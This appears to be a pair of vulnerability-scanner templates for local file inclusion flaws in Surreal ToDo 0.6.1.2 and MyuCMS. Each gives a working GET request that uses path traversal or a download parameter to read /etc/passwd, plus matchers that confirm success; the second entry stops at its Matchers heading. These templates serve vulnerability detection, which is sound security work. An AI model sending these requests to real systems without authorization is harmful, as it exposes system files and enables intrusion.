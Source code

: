 # Surreal ToDo 0.6.1.2 - Local File Inclusion

## Description

- Surreal ToDo 0.6.1.2 is vulnerable to local file inclusion via index.php and the content parameter.

- severity - high
- tags - surreal,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?content=../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# MyuCMS - Local File Inclusion

## Description

- MyuCMS is vulnerable to local file inclusion.
- severity - high
- tags - myucms,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php/bbs/index/download?url=/etc/passwd&name=1.txt&local=1

### Matchers
